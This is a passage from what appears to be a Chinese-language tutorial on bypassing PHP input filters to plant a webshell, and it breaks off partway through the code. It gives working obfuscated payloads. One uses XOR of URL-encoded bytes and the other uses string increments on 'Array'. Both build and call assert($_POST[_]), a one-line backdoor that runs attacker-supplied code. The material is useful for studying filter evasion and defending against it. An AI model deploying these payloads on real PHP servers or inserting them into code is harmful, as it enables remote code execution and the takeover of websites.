 ```php
?>
```

例如要构造`assert($_POST[_])` 这里将字符`url`编码一下

```
a:'%40'^'%21' ; s:'%7B'^'%08' ; s:'%7B'^'%08' ; e:'%7B'^'%1E' ; r:'%7E'^'%0C' ; t:'%7C'^'%08'
P:'%0D'^'%5D' ; O:'%0F'^'%40' ; S:'%0E'^'%5D' ; T:'%0B'^'%5F'
拼接起来：字符之间用.来连接
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');  // $_=assert
$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');  // $__=_POST
$___=$$__; //$___=$_POST
$_($___[_]);//assert($_POST[_]);
放到一排就是：
$_=('%40'^'%21').('%7B'^'%08').('%7B'^'%08').('%7B'^'%1E').('%7E'^'%0C').('%7C'^'%08');$__='_'.('%0D'^'%5D').('%0F'^'%40').('%0E'^'%5D').('%0B'^'%5F');$___=$$__;$_($___[_]);
翻译过来就是:
$_=assert;$__=_POST;$___=$$__;$_($___[_]);

$$__ 也即是$_POST
```

## 3自增绕过

PHP中, 若有`$a = 'a'; $a++;`则将得到`b`, 大写字母也是一样

也就是说，只要我们获得了小写字母`a`，就可以通过自增获得所有小写字母，当我们获得大写字母`A`，就可以获得所有大写字母了

而如果强制连接数组和字符串, 数组就会被强制转换成字符串，它的值就为`'Array'`, 那么就可以通过`'Array'`来拿到`a`和`A`

```php
<?php
$a = '';
$b = [];
$c = $a.$b;
echo $c.'<br>';
echo $c[0].'<br>';
echo $c[3].'<br>';
$d = $c[0];
$d ++;
echo $d.'<br>';
?>
//输出:
//Array
//A
//a
//B
```

逐个字母构造`ASSERT($_POST[_]);`:

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
```